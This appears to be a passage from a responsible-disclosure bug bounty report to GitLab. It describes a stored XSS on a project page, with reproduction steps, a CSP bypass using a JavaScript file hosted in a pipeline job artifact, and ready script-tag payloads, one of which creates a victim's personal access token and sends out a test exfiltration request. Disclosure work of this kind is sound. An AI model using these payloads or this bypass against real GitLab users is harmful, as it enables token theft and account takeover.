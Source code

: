 {F1371757}

6. Go to https://gitlab.domain.com/groups/attack_group and click the button "New project" and choose to create a "Create blank project"
7. Name the project `attacking_project` and click "Create project"
8. Now the project will load and the alert should pop up.

{F1371758}

optional:
9. On the project main page click the "Invite members" button and invite `victim01` as a Developer
10. Log in with `victim01`
11. Visit https://gitlab.domain.com/attack_group/attacking-project and the script will run for the victim as well

With some inspiration from Vakzz [report 836649](https://hackerone.com/reports/836649) I have now managed to bypass CSP on GitLab.com and execute creation and exfiltration of a `personal access token` of the victim. The XSS does not require any further action from the victim than visiting the project main page.

To bypass CSP on gitlab.com one can use a .js file stored in a job archive created by a pipeline:

https://gitlab.com/joaxcar_group/first/-/jobs/1415515489/artifacts/raw/data/token.js

which will be delivered with header `content-type: application/javascript` and can thus be included as the CSP allows script injections from gitlab.com

to test this on GitLab.com you can use the payload
```
<script src="https://gitlab.com/joaxcar_group/first/-/jobs/1415515489/artifacts/raw/data/alert.js"></script>
```
it will execute `alert(1)` twice as there are two injections on the page. To test token creation, you can use the payload
```
<script src="https://gitlab.com/joaxcar_group/first/-/jobs/1415515489/artifacts/raw/data/token.js"></script>
```
which as a security measure will ask for permission to create a `personal access token`. It will then show the token in an `alert` but also make a image query towards google.com just to test that exfiltration could be done.

After stealing an access token the attacker has full access to the API as the victim. And if the victim is an administrator, the attacker also has complete control over the Gitlab instance. Even if a user does not answer click on any email notification. The project will be added to the users project list and to "leave" the project the user needs to visit the project page. And thus is forced to trigger the XSS. There might be other ways to leave a project, but most users would probably access the project page.

The positioning of the XSS and the ability to target attacks by "invitation" in combination with access token exfiltration should position this as a quite critical XSS. (I put this in as a HIGH, but the "invitation" path could potentially raise it towards a CRITICAL, but I leave that up to you :) )

best,
Johan

Hi again @princeofpersia

